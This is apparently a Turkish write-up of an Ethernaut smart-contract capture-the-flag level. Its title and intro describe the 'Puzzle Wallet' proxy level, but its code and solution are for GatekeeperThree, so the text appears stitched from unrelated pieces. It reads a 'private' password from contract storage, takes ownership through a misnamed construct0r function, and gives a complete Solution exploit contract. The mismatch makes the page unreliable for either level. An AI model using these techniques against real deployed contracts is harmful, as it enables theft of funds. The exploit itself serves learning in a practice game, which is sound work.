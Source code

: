 
# ETHERNAUT SORU 24: PUZZLE WALLET

>Nowadays, paying for DeFi operations is impossible, fact.
>
>A group of friends discovered how to slightly decrease the cost of performing multiple transactions by batching them in one transaction, so they developed a smart contract for doing this.
>
>They needed this contract to be upgradeable in case the code contained a bug, and they also wanted to prevent people from outside the group from using it. To do so, they voted and assigned two people with special roles in the system: The admin, which has the power of updating the logic of the smart contract. The owner, which controls the whitelist of addresses allowed to use the contract. The contracts were deployed, and the group was whitelisted. Everyone cheered for their accomplishments against evil miners.
>
>Little did they know, their lunch money was at risk…
>
>You'll need to hijack this wallet to become the admin of the proxy.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract SimpleTrick {
    GatekeeperThree public target;
    address public trick;
    uint256 private password = block.timestamp;

    constructor(address payable _target) {
        target = GatekeeperThree(_target);
    }

    function checkPassword(uint256 _password) public returns (bool) {
        if (_password == password) {
            return true;
        }
        password = block.timestamp;
        return false;
    }

    function trickInit() public {
        trick = address(this);
    }

    function trickyTrick() public {
        if (address(this) == msg.sender && address(this) != trick) {
            target.getAllowance(password);
        }
    }
}

contract GatekeeperThree {
    address public owner;
    address public entrant;
    bool public allowEntrance;

    SimpleTrick public trick;

    function construct0r() public {
        owner = msg.sender;
    }

    modifier gateOne() {
        require(msg.sender == owner);
        require(tx.origin != owner);
        _;
    }

    modifier gateTwo() {
        require(allowEntrance == true);
        _;
    }

    modifier gateThree() {
        if (address(this).balance > 0.001 ether && payable(owner).send(0.001 ether) == false) {
            _;
        }
    }

    function getAllowance(uint256 _password) public {
        if (trick.checkPassword(_password)) {
            allowEntrance = true;
        }
    }

    function createTrick() public {
        trick = new SimpleTrick(payable(address(this)));
        trick.trickInit();
    }

    function enter() public gateOne gateTwo gateThree {
        entrant = tx.origin;
    }

    receive() external payable {}
}
```

Bu soruda geçmeniz gereken üç farklı kapı vardır.
1. Kapıyı geçmek için:
	* Kontraktın sahibi (owner) olmalısınız.
	* Transaction owner tarafından başlatılmamalı.
2. Kapıyı geçmek için:
	* SimpleTrick adı verilen kontrakt için doğru şifreyi bulmalısınız.
3. Kapıyı geçmek için:
	* Kapı (gate) kontraktında 0.001'den fazla ether bulunmalı.
	* Çağıran adres gönderilen etherleri kabul etmemeli.

Bu  soruyu çözmek için önce gate kontraktındaki `createTrick` fonksiyonunu çağırmamız gereklidir:
```javascript
> await contract.createTrick()

> let trick_addr = await contract.trick()
// '0xD4Fb426cB28AE9B79322e1AC72Ee1f969C2CCBbf'
```
Sonrasında bulduğumuz trick kontraktının depolamasındaki (storage) 2. indise bakarak `password` değişkeninin değerini elde edebiliriz:
```javascript
> await web3.eth.getStorageAt(trick_addr, 2)
// 0x00000000000000000000000000000000000000000000000000000000664dd9e4'
```
Sorunun geri kalanını çözmek için bu üç kapıyı çözen bir `Solution` kontraktı yazacağız.
### 1. Kapı
 Bu kapıyı geçmek için Gatekeeper kontraktının sahibi olmalıyız (`owner` değişkeni yazacağımız çözüm kontraktının adresi olmalı). Bunun için kontraktta bulunan hatalı yazılmış `construct0r` fonksiyonunu çağırmamız yeterlidir. Bu kapı aynı zamanda transaction'ın owner tarafından başlatılmadığını kontrol etmektedir. Ancak transaction'u biz (EOA) başlatacağımız için ve owner yazacağımız çözüm kontraktı olacağından bu kontrol bizim için sorun teşkil etmemektedir.
### 2. Kapı
İkinci kapıyı geçmek için JavaScript konsolu yardımıyla aldığımız şifreyi göndermek yeterlidir.
### 3. Kapı
Bu kapıyı geçmek için Gatekeeper kontraktında 0.001 ether'den fazla bulunmalı. Bunun için yazacağımız çözüm kontraktının `constructor` fonksiyonunu `payable` yapıp EOA'dan gönderdiğimiz 0.002 ether'i doğrudan Gatekeeper'a iletmemiz yeterlidir. Bu kapının başka bir koşulu yazacağımız çözüm kontraktının gönderilecek herhangi ether'i kabul etmemesidir (kontraktınıza gelen ether'i kabul etmezseniz `send` fonksiyonu `false` döndürür). Bunun için ise çözüm kontraktımıza `receive` fonksiyonunu eklemeyeceğiz ve `constructor` dışında hiçbir fonksiyonu `payable` yapmayacağız.

Aşağıda yer alan Solidity kodundaki `Solution` kontraktı yukarıda bahsettiğimiz şekilde bu üç kapıyı çözmektedir.

```solidity
contract Solution {
	SimpleTrick trick;
	GatekeeperThree gate;

	constructor(address trick_addr,  address  payable gate_addr)  payable  {
		trick = SimpleTrick(trick_addr);
		gate = GatekeeperThree(gate_addr);
		gate_addr.transfer(msg.value);
	}

	function solve()  public  {
		require(trick.checkPassword(0x664dd9e4), "Password failed.");  // check password
		gate.getAllowance(0x664dd9e4);  // submit password
		gate.construct0r(); // gain ownership
		require(gate.owner()  ==  address(this), "Failed ownership.");
		gate.enter();
	}
}
```
